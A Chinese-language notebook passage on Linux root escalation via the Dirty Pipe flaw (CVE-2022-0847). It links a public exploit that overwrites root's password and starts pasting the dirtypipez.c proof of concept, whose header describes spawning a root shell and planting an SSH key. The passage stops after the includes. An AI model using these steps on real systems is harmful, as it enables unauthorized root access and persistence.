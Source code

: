 <a name="ln9eU"></a>
#### CVE-2022-0847
**第一种方法(不推荐**<br />[https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/)<br />1、这个脚本其实覆盖了root用户的密码，为aaron <br />2、提权完需要把密码改回去，运行脚本的时候会复制了一份passwd.bak在/tmp目录下，所以直接移回去就好了。<br />mv /tmp/passwd.bak /etc/passwd<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647063503392-f1578fea-ddfb-4ad0-a05e-9216b6cb5a29.png#clientId=ub2b2bbc8-7500-4&from=paste&height=237&id=u29769641&originHeight=473&originWidth=1020&originalType=binary&ratio=1&rotation=0&showTitle=false&size=240615&status=done&style=none&taskId=ua73d77dd-23a7-495c-a823-b670417c918&title=&width=510)


**第二种方法(推荐**<br />下面是dirty.c文件
```java
// https://haxx.in/posts/pwning-tipc/
// dirtypipez.c
//
// hacked up Dirty Pipe (CVE-2022-0847) PoC that hijacks a SUID binary to spawn
// a root shell. (and attempts to restore the damaged binary as well)
//
// Wow, Dirty CoW reloaded!
//
// -- blasty <peter@haxx.in> // 2022-03-07

/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <stdint.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

```
